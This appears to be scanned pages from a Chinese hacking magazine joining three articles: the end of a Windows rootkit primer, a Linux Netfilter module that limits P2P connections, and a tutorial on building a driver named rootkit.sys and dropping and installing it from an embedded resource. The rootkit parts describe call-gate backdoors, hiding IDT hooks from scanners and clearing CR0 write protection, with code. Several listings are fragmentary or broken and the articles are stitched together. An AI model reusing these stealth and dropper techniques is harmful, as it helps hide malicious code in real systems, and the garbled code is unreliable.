rootkit 开发者应该知道，管理运行时代码的主要机制是线程，并非进程；Windows 内核基于线程而不是进程的数量对进程进行调度。假如存在两个进程：一个是单线程的，另一个具有 9 个线程，则系统将为每个线程分配 10% 的处理时间，单线程的进程只能获得 10% 的 CPU 时间，而具有 9 个线程的进程会得到 90% 的时间。当然，这是一个人为示例，因为其他因素（例如优先级）也在调度过程中发挥作用，但以下事实仍存在：当其他所有因素相同时，调度工作完全基于线程数目，而不是进程数目。

> 什么是进程？在 Windows 系统中，进程只是一组线程共享以下数据的一种方式：  
> - 虚地址空间（即 CR3 的值）  
> - 访问令牌（包含 SID）  
> - Win32 内核对象的句柄表  
> - 工作集（“进程”拥有的物理内存）

rootkit 出于多种目的（如潜行和代码注入）必须处理线程和线程结构。它不必创建新进程，而是创建新线程并将其分配给现有进程，需要创建一个全新进程的情况很少。

当切换到一个新线程的上下文时，旧线程的状态会保存起来。每个线程都有自己的内核堆栈，因此将线程状态推入到线程内核堆栈的顶部。若新线程属于另一个进程，则将新进程的页目录地址加载到 CR3 中。页目录地址可以在进程的 KPROCESS 结构中找到。一旦发现了新线程的内核堆栈，就从该堆栈的顶部弹出新线程的上下文，并开始执行新线程。若 rootkit 修改了进程的页表，该修改将作用于该进程中的所有线程，因为这些线程都共享同一个 CR3 值。

### 4.4 内存描述符表

CPU 用于跟踪信息的一种表中可以包含描述符。描述符有多种类型，它们可以由 rootkit 插入或修改。

#### 4.4.1 全局描述符表

通过 GDT（Global Descriptor Table）全局描述符表，可以实现大量技巧。GDT 可以用于映射不同的地址范围；也可导致任务切换。通过 SGDT 指令可以发现 GDT 的基地址；通过 LGDT 指令可以更改 GDT 的位置。

#### 4.4.2 本地描述符表

LDT（Local Descriptor Table）本地描述符表允许每个任务拥有唯一的描述符集合。当指定一个段时，表指示符位（table-indicator bit）可以在 GDT 和 LDT 之间进行选择，LDT 可以包含和 GDT 相同类型的描述符。

#### 4.4.3 代码段

在访问代码内存时，CPU 使用在代码段（Code Segment, CS）寄存器中指定的段，代码段可以在描述符表中加以指定。任何程序，包括 rootkit，都可以通过执行 far call、far jump 或 far return 指令来修改 CS 寄存器，其中 CS 从堆栈顶部弹出。令人感兴趣的是，只需将描述符中的 R 位设置为 0 就可以执行代码。

#### 4.4.4 调用门

在 LDT 和 GDT 中可以放置一种特殊的描述符，称为调用门（call gate）。如果将描述符设置为调用门，程序可以执行段间调用（far call）；当该调用发生时，可以指定一个新的环级别。调用门允许用户模式程序通过执行函数调用进入内核模式，这对于 rootkit 程序来说是一个令人感兴趣的后门。同样的机制可用于段间跳转（far jump），但只有当调用门的权限级别等于或低于执行跳转的进程时才能进行这种操作。

当使用了调用门时，会忽略地址——只有描述符编号起作用。调用门的数据结构会将被调用函数的代码位置告知 CPU，可以选择性地从堆栈中读取参数。例如，可以创建一个调用门，使得调用者将秘密命令参数放到堆栈上。

### 4.5 中断描述符表

中断描述符表寄存器（Interrupt Descriptor Table Register, IDTR）可以存储中断描述符表（Interrupt Descriptor Table, IDT）在内存中的基地址（起始地址）。IDT 用于查找处理中断所用的软件函数，它是非常重要的。计算机中大量的底层功能都使用了中断。例如，每当键盘上进行击键就产生中断信号。

IDT 是一个由 256 项组成的数组——每个中断对应其一项，这意味着每个处理器至多支持 256 个中断。另外，每个处理器拥有自己的 IDTR，因此也拥有自己的中断表。若计算机包含多个 CPU，则部署在该计算机上的 rootkit 必须考虑到每个 CPU 都有自己的中断表。

当中断发生时，可以从中断指令或可编程中断控制器（Programmable Interrupt Controller, PIC）中获取中断编号。在这两种情况下，都通过中断表寻找要调用的软件函数，该函数有时称为向量（vector）或中断服务例程（Interrupt Service Routine, ISR）。

如果处理器处于保护模式中，则中断表是由 256 个 8 字节项组成的数组，每项包含 ISR 地址以及其他一些与安全相关的信息。

为了获得中断表的内存地址，必须读取 IDTR。这由 SIDT（Store Interrupt Descriptor Table）指令完成，也可通过 LIDT（Load Interrupt Descriptor Table）指令修改 IDTR 的内容。

rootkit 所用的一种技巧是创建一个新的中断表，通过它隐藏对原始中断表进行的修改。病毒扫描仪能够检查原始 IDT 的完整性，但 rootkit 可以伪造 IDT 的副本，修改 IDTR，然后可以惬意地在无法检测到的情况下，对复制的 IDT 进行修改。

SIDT 指令以如下格式存储 IDTR 的内容：

```c
/* sidt returns idt in this format */
typedef struct
{
    unsigned short IDTLimit;
    unsigned short LowIDTbase;
    unsigned short HiIDTbase;
} IDTINFO;
```

攻击者通过 SIDT 指令所提供的数据能够找到 IDT 的基地址并转储它的内容。要记住 IDT 最多包含 256 项，其中每项都包含一个中断服务例程的指针，各项的结构如：

```c
// entry in the IDT, this is sometimes called
// an "interrupt gate"
#pragma pack(1)
typedef struct
{
    unsigned short LowOffset;
```

```c
unsigned short selector;
unsigned char unused_lo;
unsigned char segment_type:4; // 0x0E's interrupt gate
unsigned char system_segment_flag:1;
unsigned char DPL:2; // descriptor privilege level
unsigned char P:1; // present
unsigned short HiOffset;
} IDTENTRY;
#pragma pack()
```

该数据结构有时称为中断门（interrupt gate），用于在内存中定位处理器中断事件的函数。通过中断门，用户模式的程序可以调用内核模式的例程。例如，一个系统调用中断的目标位于 IDT 表中的偏移量 0x2E 处。

系统调用在内核模式中处理，尽管可以从用户模式中对其进行初始化。其他的中断门可以作为后门由 rootkit 放置，rootkit 也可以钩住现有的中断门。

可以使用以下代码示例作为访问 IDT 的向导：

```c
#define MAKELONG(a, b) \
    ((unsigned long)((unsigned short)(a)) | ((unsigned long)((unsigned short)(b)) << 16))
```

IDT 中的最大项数是 256。

```c
#define MAX_IDT_ENTRIES 0xFF
```

出于示例目的，在示例 rootkit 的 DriverEntry 例程中实现了分析器。

```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject,
                     IN PUNICODE_STRING theRegistryPath)
{
    IDTINFO idt_info;
    IDTENTRY* idt_entries;
    unsigned long count;

    __asm sidt idt_info;
    idt_entries = (IDTENTRY*)MAKELONG(idt_info.LowIDTbase, idt_info.HiIDTbase);
    ...
}
```

使用 SIDT 指令返回的数据来获取 IDT 的基地址，然后遍历每一项，并将一些数据显示到调试输出信息中。

```c
idt_entries = (IDTENTRY*)
    MAKELONG(idt_info.LowIDTbase, idt_info.HiIDTbase);

for (count = 0; count <= MAX_IDT_ENTRIES; count++) {
    char t[255];
    IDTENTRY *i = &idt_entries[count];
    unsigned long addr = 0;
    addr = MAKELONG(i->LowOffset, i->HiOffset);
    _snprintf(t, 253, "Interrupt %d: ISR 0x%08X", count, addr);
    DbgPrint(t);
}

return STATUS_SUCCESS;
```

上述代码示例解释了如何分析 IDT。对 IDT 并没有进行实际修改。然而，这些代码很容易演化成更复杂工具的基础。

除了中断门之外，IDT 还可以包含任务门（task gate）和陷阱门（trap gate）。陷阱门与中断门的区别只在于它能够被可屏蔽中断所中断，而中断门则不能。另一方面，任务门是一个非常过时的处理器特性，它可以用于强制 x86 处理器的任务切换。由于 Windows 并不使用该特性，因此这里不对其进行示例讲解。

在 Windows 操作系统中不应将任务与进程相混淆。x86 CPU 的任务是通过任务状态段（Task State Segment，TSS）这一种最初用于通过硬件执行任务管理的工具来管理的。Linux、Windows 以及其他许多 OS 都通过软件实现任务切换，大多数情况下并不使用底层硬件机制。

### 4.6 系统服务调度表

系统服务调度表用于查询处理特定系统调用的函数。该工具在操作系统而不是 CPU 中实现。程序有两种执行系统调用的方式：使用中断 0x2E，或者使用 SYSENTER 指令。

在 Windows XP 及其后的系统上，程序通常使用 SYSENTER 指令，而较老的平台则使用中断 0x2E。这两种机制是完全不同的，尽管它们能够得到相同的结果。该函数从 EAX 寄存器中读取系统调用的编号，并在 SSDT 中查询该调用。该函数还将由 EDX 寄存器所指向的系统调用参数从用户模式堆栈中复制到内核模式堆栈。某些 rootkit 会介入这个处理过程之中以嗅探数据、更改数据参数或重定向系统调用。

### 4.7 控制寄存器

除了系统的各个表之外，还存在着一些控制 CPU 重要特性的特殊寄存器，rootkit 可对它们加以利用。

#### 4.7.1 控制寄存器 0

控制寄存器包含一些控制处理器如何运作的数据位。例如，禁用内核内存访问保护机制的一种常见方法就是修改控制寄存器 CR0。

控制寄存器最初出现于低级的 286 处理器中，以前称为机器状态字（machine status word）。随着 386 处理器系列的发布，重新将其命名为控制寄存器 0（Control Register 0, CR0）。直到 486 系列的处理器出现后，CR0 中才添加了写保护（Write Protect, WP）位，WP 位控制是否允许处理器写入标记为只读属性的内存页。该位设置为 0 的话，会禁用内存的保护机制。这对于打算向 OS 数据结构中写入信息的内核 rootkit 来说是非常重要的。

下列代码显示了如何使用 CR0 技巧来禁用和重新启用内存保护机制。

```asm
// UN-protect memory
__asm {
    push eax
    mov eax, CR0
    and eax, 0FFFEFFFFh
    mov CR0, eax
    pop eax
}

// do something

// RE-protect memory
__asm {
    push eax
    mov eax, CR0
    or eax, NOT 0FFFEFFFFh
    mov CR0, eax
    pop eax
}
```

#### 4.7.2 其他控制寄存器

还有 4 个控制寄存器用于管理处理器的其他功能。CR1 是未使用的或未在文档中说明。CR2 当处理器处于保护模式时用于存储上一个导致页故障的地址。CR3 存储页目录的地址。CR4 在 Pentium 系列（以及 486 的后期版本）处理器中才实现，它处理的事务包括诸如何时启用虚拟 8086 模式——即何时在 Windows NT 上运行旧的 DOS 程序。若启用了该模式，处理器将自陷（trap）CLI、STI 和 INT 等特权指令。这些额外的寄存器对于 rootkit 来说通常是没有用处的。

#### 4.7.3 EFlags 寄存器

EFlags 寄存器也是重要的。首先，它处理陷阱标志（trap flag），如果设置了该标志，处理器将步进执行。rootkit 可以使用诸如步进执行之类的特性来检测调试器是否正在运行或向病毒扫描软件隐藏自身；通过清除中断标志（interrupt flag），就可以禁用中断。另外，还可通过 I/O Privilege Level 来修改大多数基于 Intel 的操作系统所采用的基于环的保护系统。

## 五、备注

### 5.1 附言

至此关于 rootkit 的基础介绍就告一段落了。本来是想写一篇关于 RK 的完全解读的，但是由于最近 rootkit.com 被攻击，我无法获得一些重要的资料和代码，只能用手上的资料写了这篇文章，所以《详述RK》就变成了《RK基础》了。等到 rootkit.com 恢复后，我会写一篇《RK高级技巧》和本篇补成一套。

正如前面说的：“rootkit 并非天生邪恶，也并不总是被黑客所使用。rootkit 只是一种技术，理解这一点是很重要的。美好或邪恶的意图取决于使用它们的人。”希望大家能记住这一点，那么这篇文章便是有意义的。

### 5.2 参考资料

- 《Windows内核原理与实现》潘爱民，电子工业出版社
- 《Rootkits——Windows内核的安全防护》（美）Greg Hoglund，（美）James Butler 著，清华大学出版社
- 《决战恶意代码》（美）Ed Skoudis，Lenny Zeltser，电子工业出版社
- 《软件调试》张银奎，电子工业出版社
- 《天书夜读——从汇编语言到Windows内核编程》谭文、邵坚磊，电子工业出版社
- 《现代操作系统》（荷）Andrew S. Tanenbaum
- 《黑客反汇编揭秘》第二版，（俄）克里斯·卡巴斯基，电子工业出版社等众多资料

## 调整 Linux 内核防火墙 P2P

李晨光

对于一些中小型企业、办公室用户或者仅具有有限带宽资源的用户来说，他们一般采用 NAT（Network Address Translation，网络地址转换）来接入 Internet。如果内部用户肆无忌惮地使用 P2P 进行下载或者在线播放，势必影响到其他用户正常使用网络；如果把 P2P 的端口全部封杀掉，用户就享受不到 P2P 所带来的好处了。

### 一、Netfilter 结构框架

#### 1. Linux 防火墙发展历程

最开始的 ipfwadm 是 Alan Cox 在 Linux Kernel 发展的初期，从 FreeBSD 的内核代码中移植过来的。后来经历了 ipchains，再经由 Paul Russell 在 Linux Kernel 2.3 系列的开发过程中发展了 Netfilter 这个架构。而用户空间的防火墙管理工具，也相应地发展为 iptables。在经历了 Linux Kernel 2.4 和 2.6 的发展以后，的确可以说“Netfilter 和 iptables”经受住了大量用户广泛使用的考验。本文将基于 Linux 2.6 的内核来进行叙述。

#### 2. 什么是 Netfilter

Netfilter 是 Linux 2.6 内核实现的防火墙框架，它比以前任何一版 Linux 内核的防火墙子系统都要完善强大。Netfilter 提供了一个抽象、通用化的框架，该框架定义一个子功能，实现的就是包过滤子系统。Netfilter 由一系列基于协议栈的钩子组成，这些钩子都对应某一具体的协议。

#### 3. Netfilter 在 IPv4 中的结构

尽管 Linux 2.6 支持对 IPv4、IPv6 及 DECnet 的钩子，但本文只提及 IPv4 的钩子。IPv4 协议栈为了实现对 Netfilter 架构的支持，IP 包在 IPv4 协议栈上的游历路线（如图 1 所示）之中选择了五个检查点，可以在 Linux/netfilter_ipv4.h 里面找到这些符号的定义，表 1 列出了这些钩子。

在这五个检查点上，各引入了一行对 NF_HOOK() 宏函数的一个相应调用。如果没配置防火墙，NF_HOOK() 便从 Netfilter 模块转回到 IPv4 协议栈继续往下处理；如果配置了防火墙，NF_HOOK() 就转去调用 nf_hook_slow() 函数，该函数便会按顺序调用在该检查点注册的钩子函数。不管钩子函数对数据包做了哪些处理，它都必须返回表 2 中的一个预定义好的返回值。NF_IP_PRE_ROUTING 钩子是数据包接收后第一个调用的钩子程序。

| 钩子点 | 说明 |
|---|---|
| NF_IP_PRE_ROUTING | 数据包进入路由决策之前 |
| NF_IP_LOCAL_IN | 目的地为本机，路由决策之后 |
| NF_IP_FORWARD | 数据包经过本机，向前转发 |
| NF_IP_LOCAL_OUT | 本地进程发出的数据，发出路由选择中 |
| NF_IP_POST_ROUTING | 向外输出的数据，上线之前 |

| 返回值 | 含义 |
|---|---|
| NF_DROP | 丢弃该数据包 |
| NF_ACCEPT | 保留并接受 |
| NF_STOLEN | 忽略该数据包（由钩子接管） |
| NF_QUEUE | 送交用户空间队列 |
| NF_REPEAT | 再次调用该钩子函数 |

NF_DROP 表示要丢弃这个数据包，并且为这个数据包申请的所有资源都要得到释放。NF_ACCEPT 告诉 Netfilter 到目前为止，这个数据包仍然可以被接受，应该将它移到网络堆栈的下一层。NF_STOLEN 是非常有趣的一个返回值，它告诉 Netfilter 让其忘掉这个数据包，也就是说钩子函数会在这里对这个数据包进行完全处理，而 Netfilter 就应该放弃任何对它的处理了。最后一个返回值 NF_REPEAT，就是当用户改变了该数据包包头的某些信息，可以请求 Netfilter 再次调用这个钩子函数对它进行操作。

#### 4. 注册和注销 Netfilter 钩子函数

在上面提到了 nf_hook_slow() 函数会按顺序调用在该检查点注册的钩子函数，那么钩子函数是怎样注册的呢？注册一个钩子函数是一个围绕 nf_hook_ops 结构体的很简单的过程，在 linux/netfilter.h 中有这个结构体的定义：

```c
struct nf_hook_ops
{
    struct list_head list;
    nf_hookfn *hook;
    int pf;
    int hooknum;
    int priority;
};
```

这个结构体的成员 list 主要是用来维护注册的钩子函数列表的，对于用户来说，在注册时并没有多么重要。list 是一个只有 prev 和 next 两个域的双向链表，各检查点的钩子函数就是通过它来按照 priority 的值由小到大链接在一起的。nf_hook_slow() 函数就是靠这个表来调用该检查点的钩子函数的。hook 是指向 nf_hookfn 函数的指针，也就是为这个钩子将要调用的所有函数。nf_hookfn 同样定义在 Linux/netfilter.h 这个文件中。pf 字段指定了协议族（Protocol Family），Linux/socket.h 中定义了可用的协议族。对于 IPv4 只使用 PF_INET。hooknum 域指明了为哪个检查点安装这个函数，也就是表 1 中所列出的条目中的一个。priority 域表示在运行时这个钩子函数执行的顺序。我们选择 NF_IP_PRI_FIRST 这个最高优先级来运行编写的内核模块。

## 二、连线跟踪

### 1. 什么是连线跟踪

每个网络连接包括以下信息：源地址、目的地址、源端口和目的端口（叫作套接字对，Socket Pairs）、协议类型、连接状态（TCP 协议）和超时时间等。防火墙把这些信息叫做状态（Stateful），能够检测每个连接状态的防火墙叫作状态包过滤防火墙。它除了能够完成简单包过滤防火墙的包过滤工作外，还在自己的内存中维护一个跟踪连接状态的表，比简单包过滤防火墙具有更大的安全性。

以前，经常需要打开 1024 以上的所有端口来放行应答的数据。现在有了连线跟踪，就不需要这样了，因为可以只开放那些有应答数据的端口，其他的都可以关闭。这样就安全多了。

### 2. 连线跟踪工作原理

连线跟踪的工作原理并不十分复杂。以一个防火墙接收到一个初始化 TCP 连接的 SYN 包为例，这个带有 SYN 的网络协议包将被防火墙的规则库检查。该数据包将在规则库中依次进行比较。如果检查了所有规则都不匹配，那么该包将被丢弃。这样一个含连接复位（RST）的网络协议包将被发送到远端主机。

要是该数据包通过防火墙的规则检查被防火墙接收，那么这次连接的信息将被保存在一个连线跟踪信息表中，并表明该包所应有的状态。这个连线跟踪信息表位于内核模式下，其后的网络协议包（也就是在 SYN 包之后不带 SYN 标志的数据包）就将和此连线跟踪信息表中的内容进行比较。

根据在信息表中该包的信息，来决定该数据包是丢弃还是被接收。利用连线跟踪可以提高防火墙系统的性能，因为每一个数据包首先不是和规则库进行比较，而是和连线跟踪信息表进行比较。只有含有 SYN 的数据包到来时，它才和规则库进行比较。因为所有的数据包与连线跟踪信息表的比较都是在内核模式下进行的，所以速度很快。

可见连线跟踪的工作原理是：检测每一个有效连接的状态，并根据这些信息决定网络数据包是否能够通过防火墙。该技术在协议栈底层截取数据包，然后分析这些数据包，并且将当前数据包及其状态信息和前一时刻的数据包及其状态信息进行比较，从而得到该数据包的控制信息，达到保护网络安全的目的。

### 3. UDP 协议的连线跟踪

UDP 协议的连接是无状态的，但仍然可以用类似的方法来维护这些连接。当一个 UDP 包通过防火墙的规则检查时，这次连接也将被添加到连线跟踪信息表中，并如同 TCP 一样设置一个连接的超时时间值。在这个时间值内，返回的任何一个源地址、目的地址以及源端口、目的端口相匹配的数据包都将被允许通过。

#### 4. 包处理过程

数据包进入系统后，在图 1 中可以看到有三种可能流程：

- **发往本机上层的包（INPUT 链）**  
  `NF_IP_PRE_ROUTING -> NF_IP_LOCAL_IN`  
  主机接收到发往本地的 IP 数据包后，首先经过 `NF_IP_PRE_ROUTING`，系统做出路由决定，决定把该数据包发往本地，数据包经过 `NF_IP_LOCAL_IN` 后被应用程序所接收。

- **由本机转发的包（FORWARD 链）**  
  `NF_IP_PRE_ROUTING -> NF_IP_FORWARD -> NF_IP_POST_ROUTING`  
  主机接收到需要它转发的数据包后，首先经过 `NF_IP_PRE_ROUTING`，如果没有任何钩子函数的话，系统将做出路由决定，决定该数据包的走向。然后数据包会经过 `NF_IP_FORWARD`、`NF_IP_POST_ROUTING`，离开系统并被发送到网络上。

- **从本机发出的包（OUTPUT 链）**  
  `NF_IP_LOCAL_OUT -> NF_IP_POST_ROUTING`  
  当本地产生数据包时，该数据包首先经过 `NF_IP_LOCAL_OUT`，数据包经过 `NF_IP_POST_ROUTING` 后被转发到网络中。

```bash
# iptables -A FORWARD -j ACCEPT
```

在每一条路径上，连线跟踪、包过滤和地址转换都注册了相应的函数，并创建与之相关的数据结构，完成其功能。每条路径上功能点的顺序如图 2 所示。

在图 2 中，CONNTRACK 代表连线跟踪，DNAT 代表目的地址转换，SNAT 代表源地址转换，FILTER 代表包过滤。可以看到，CONNTRACK 在路径上出现了两次，其作用是：第一个点上它创建连线跟踪的结构，这个结构会在后面的地址转换和包过滤中被使用；在第二个点上它将连线跟踪的结构加到系统的连接表中。通过查看 ip_conntrack_core.c 源码可以看出 ip_conntrack_hash 这一双向链表是可供外部访问的，这为后面编写内核代码来读取该表、“窥视”表中数据来获取所要的信息提供了可能。

#### 5. 限制 P2P 连接数内核模块

由于 Linux 源代码的开放与自由，用户可以通过编写内核模块装载到内核中，利用 Netfilter 的钩子来达到任何目的。由于 P2P 连接都是 TCP 或者 UDP 连接，因此将利用连线跟踪里面“状态”这一概念来入手进行内核模块的编写：在有数据包进来的时候先遍历内存中的连线跟踪表，查看里面该 IP 有多少已建立的连接，若已达到所限制的数目，则把刚进来的数据包丢掉，从而实现连接数的限制。

不妨假设一个简单的网络拓扑图如图 3 所示，模块流程图如图 4 所示。

该 Linux 服务器已通过 iptables 工具配置好了 NAT 以及一些访问策略等。这里说明一下 FORWARD 链的配置，该链至少要有如下配置：

```bash
# iptables -t nat -A POSTROUTING -o eth0 -s 192.168.0.0/16 -j MASQUERADE
# iptables -A FORWARD -i eth0 -m state --state ESTABLISHED,RELATED -j ACCEPT
# iptables -A FORWARD -s 192.168.0.0/16 -j ACCEPT
```

主要代码如下：

```c
static struct nf_hook_ops nfho;
/* 实施连接限制的 IP 地址段，以网络字节顺序表示 */
static unsigned long lim_min_ip = 0x0201A8C0; // "192.168.1.2"
static unsigned long lim_max_ip = 0xFEFFA8C0; // "192.168.255.254"
static int lim_conn = 20;
/* 每 IP 限制的连接数为 20 */
static int count_conntrack_iterate(const struct ip_conntrack_tuple_hash *hash,
                                   const unsigned long our_ip,
                                   int *pcount)
{
    struct ip_conntrack *ct = hash->ctrack;
    int protonum;
    IP_NF_ASSERT(hash->ctrack);
    MUST_BE_READ_LOCKED(&ip_conntrack_lock);
}
```

## 黑客研究院

```c
/* 只考虑原方向上的连线跟踪 */
if (DIRECTION(hash))
    return 0;
protonum = ct->tuplehash[IP_CT_DIR_ORIGINAL].tuple.dst.protonum;
if (protonum != 17 && protonum != 6)
    /* 如果不是TCP和UDP连接 */
    return 0;
/* 若连线跟踪元组里面的源IP地址为当前数据包的IP地址，则计数加一 */
if (cur_ip == ct->tuplehash[IP_CT_DIR_ORIGINAL].tuple.src.ip)
    (*pcount)++;
return 0;
}

static void count_conntrack(const unsigned long ip, int *pcount)
{
    unsigned int i;
    READ_LOCK(&ip_conntrack_lock);
    /* 遍历整个连线跟踪元组哈希表 */
    for (i = 0; i < ip_conntrack_htable_size; i++)
    {
        LIST_FIND(&ip_conntrack_hash[i], count_conntrack_iterate, struct ip_conntrack_tuple_hash *, ip, pcount);
    }
    READ_UNLOCK(&ip_conntrack_lock);
}

/* 钩子函数定义 */
unsigned int limitp2p_hook_func(unsigned int hooknum, struct sk_buff **skb, const struct net_device *in, const struct net_device *out, int (*okfn)(struct sk_buff *))
{
    struct sk_buff *sb = *skb;
    /* 若不在实施连接限制的IP地址段，交给下一层处理 */
    if (sb->nh.iph->saddr < lim_min_ip || sb->nh.iph->saddr > lim_max_ip)
        return NF_ACCEPT;
    struct ip_conntrack *ct;
    enum ip_conntrack_info ctinfo;
}
```

```c
/* 若有连线跟踪说明该连接已建立或者未建立正等待对方回应 */
if (ct)
    return NF_ACCEPT;
int cur_conn = 0;
/* 根据数据包中源IP地址遍历连线跟踪哈希表获得已建立连线数 */
count_conntrack(sb->nh.iph->saddr, &cur_conn);
if (cur_conn > lim_conn)
    return NF_DROP;
else
    return NF_ACCEPT;
}

/* 模块初始化函数 */
int limitp2p_init_module()
{
    nfho.hook = limitp2p_hook_func;
    /* 钩子函数名 */
    nfho.hooknum = NF_IP_PRE_ROUTING;
    /* Netfilter框架在IPv4的检查点 */
    nfho.pf = PF_INET;
    /* 采用的协议簇，这里采用IPv4 */
    nfho.priority = NF_IP_PRI_FIRST;
    /* 较小数值的函数具有优先调用 */
    /* 向Netfilter框架登记钩子函数 */
    nf_register_hook(&nfho);
    return 0;
}

/* 模块卸载函数 */
void limitp2p_cleanup_module()
{
    /* 向Netfilter框架取消钩子函数登记 */
    nf_unregister_hook(&nfho);
}
module_init(limitp2p_init_module);
module_exit(limitp2p_cleanup_module);
```

本内核模块在 Linux 2.6 内核下通过编译才能正常工作。Linux 提供的基于内核的 Netfilter 框架，具有通用性和可扩展性的特点，使得开发人员可结合自己的需要编写内核模块来对数据包进行处理。文中所述模块只是实现了很简单的功能，完全可以进行扩充，例如加上检测的端口等，或者与 iptables 相结合，这样就可以在用户空间通过 iptables 的参数来配置该模块了。

## 浅析驱动程序的加载过程

在开始之前，首先简要介绍一下本文的主题。这篇文章是关于将内核模块加载到操作系统内核的方法介绍。所谓“内核模块”，通常可理解为驱动程序。Windows 操作系统将程序划分为用户模式和内核模式（如 Ring3 与 Ring0），用户态程序通常通过 Win32 API 调用系统功能，但从安全研究与 hacking 的角度看，API 的能力并不能满足所有需求，因此会涉及到内核侧的技术实践。

关于把代码加载到内核中并执行的讨论，常围绕 Rootkit 展开。本文并非细节性的 Rootkit 教程，而是以循序渐进方式展示一个驱动程序的编译、加载与执行过程。文中假设读者具备基础 C 语言知识与少量 Win32 开发经验；所谓“加载”本质上是对若干函数的顺序调用，并不涉及复杂算法。

在介绍如何加载驱动程序之前，先说明如何编译一个基本驱动。通常编写 Windows 驱动需要 WDK（Windows Driver Kits，早期也称 DDK）。安装后会包含 Build Environments 等工具，驱动编译通常使用 build 工具完成。

```c
#include <ntddk.h>

NTSTATUS DriverEntry(IN PDRIVER_OBJECT pDriverObject,
                     IN PUNICODE_STRING pRegistryPath){
    __asm{
        mov eax,0
        call eax
    }
    return STATUS_SUCCESS;
}
```

内核驱动程序通常用 C 语言编写。示例代码虽然很短，但其中通过汇编尝试访问地址 0 的行为在用户态会被系统终止；在内核态执行则可能触发蓝屏（BSoD）。此外，参数中的 `IN`/`OUT` 为注释性宏：`IN` 表示调用者输入参数，`OUT` 表示由被调方返回输出值，这在驱动开发中非常常见。

在明确这些之后，新建项目并保存代码为 `simpledriver.c`。使用 build 构建驱动时，除代码文件外还需 `SOURCES` 与 `MAKEFILE` 两个无扩展名文件。示例中的 `SOURCES` 内容如下：

```makefile
TARGETNAME=ROOTKIT
TARGETPATH=obj
TARGETTYPE=DRIVER
SOURCES=simpledriver.c
```

MAKEFILE 文件内容如下：

```makefile
!INCLUDE $(NTMAKEENV)\makefile.def
```

在建立了这三个文件之后，打开 Build Environments 文件夹，选择一个目标操作系统。其中 Checked 表示的是调试模式，而 Free 表示的是发行模式。这二者的关系与通常使用 VC++ 编写应用程序时的 Debug 与 Release 类似。我使用的是 Windows 7 系统，但这里我们仍然选择 Windows XP，并选择 Checked 模式。单击之后出现命令提示符，转到刚刚建立的项目文件夹，输入 build 并回车确认。短暂的等待之后，驱动编译完成。这时在你的项目文件夹里面会出现一个保存有新创建的驱动程序的新的文件夹。本例中，至此，我已经得到了一个名为 rootkit.sys 的驱动程序。

以上所展示的是一个简单的驱动程序的编译过程，接下来我们编写加载驱动程序到内核的代码。

通常的方案是将驱动程序作为加载程序的一项资源，包含到加载程序中去，在加载程序运行的时候再将驱动程序释放出来。这样做的好处就是最后只用一个可执行文件就可以做所有的事。首先编写一个简单的资源脚本文件 rootkit.rc，将 rootkit.sys 命名为 rootkit，并定义为 RCDATA 类型，最后我们得到 rootkit.res 资源文件。我们如何在程序中释放资源呢？下面的代码是主要代码文件 loader.c 的一个片段，展示了如何从程序中获得资源并释放的过程。

```c
WRITE ...
...
WriteFile(hFile, lpResFile, dwResSize, &dwResSize, 0);
CloseHandle(hFile);
return 0;
}
```

在以上的代码中，我故意省略掉若干错误处理代码以使代码显得紧凑。简单对以上代码做些解释。从文件中取得资源的步骤很简单，首先调用 FindResource() 找到资源，这个函数返回一个 HRSRC 类型的值。然后使用这个值调用 SizeofResource() 获得资源的文件长度。这个参数在生成文件的时候会用到，但这并不是加载资源的过程本身所需要的步骤。然后就要将资源实际加载到内存，这步使用 LoadResource() 函数完成，这步完成后返回的是一个 HGLOBAL 类型的值，注意与前面返回的 HRSRC 类型的值是不一样的。然后利用刚刚得到的值调用 LockResource() 锁定资源。这个函数返回一个指向资源的指针。然后创建文件和写入内容的步骤很简单，便不再赘述了。要查找关于 Windows 编程的资料，常用的还是 MSDN，对此我就不多说了。下面来看最终的加载步骤，首先给出示例代码：

```c
int LoadFileFromResource(void){
    HRSRC hrResFile;
    DWORD dwResSize;
    HGLOBAL hgResFile;
    LPVOID lpResFile;
    HANDLE hFile;

    hrResFile=FindResource(NULL,"rootkit",RT_RCDATA);
    dwResSize=SizeofResource(NULL,hrResFile);
    hgResFile=LoadResource(NULL,hrResFile);
    lpResFile=LockResource(hgResFile);

    hFile=CreateFile(".\\rootkit.sys", ...);
    ...
}
```

```c
#include <windows.h>
#include <stdio.h>
#include <string.h>
#pragma comment(lib,"advapi32.lib")

int main(int argc,char** argv){
    SC_HANDLE hSCHandle;
    SC_HANDLE hSrvHandle;
    char lpFilePath[MAX_PATH];

    LoadFileFromResource();
    hSCHandle=OpenSCManager(NULL,NULL,SC_MANAGER_ALL_ACCESS);
    GetCurrentDirectory(MAX_PATH,lpFilePath);
    strcat(lpFilePath,"\\rootkit.sys");
    hSrvHandle=CreateService(hSCHandle, ... "outshell", ...);
}
```

```c
... OpenSCManager(...);
... CreateService(...,
    "NutShell",
    SERVICE_ALL_ACCESS,
    SERVICE_KERNEL_DRIVER,
    SERVICE_DEMAND_START,
    SERVICE_ERROR_NORMAL,
    lpFilePath,
    NULL, NULL, NULL, NULL, NULL);

if (hSrvHandle) {
    ...
} else if (GetLastError() == ERROR_SERVICE_EXISTS) {
    printf("Service exists already, now is going to start it\n");
    hSrvHandle = OpenService(hSCHandle, "nutshell", SERVICE_ALL_ACCESS);
    StartService(hSrvHandle, 0, NULL);
    CloseServiceHandle(hSCHandle);
    return 1;
}

printf("Create Service Successfully");
CloseServiceHandle(hSrvHandle);
CloseServiceHandle(hSCHandle);

/* 左栏为代码截图，部分内容因扫描质量不可完全辨认 */
```

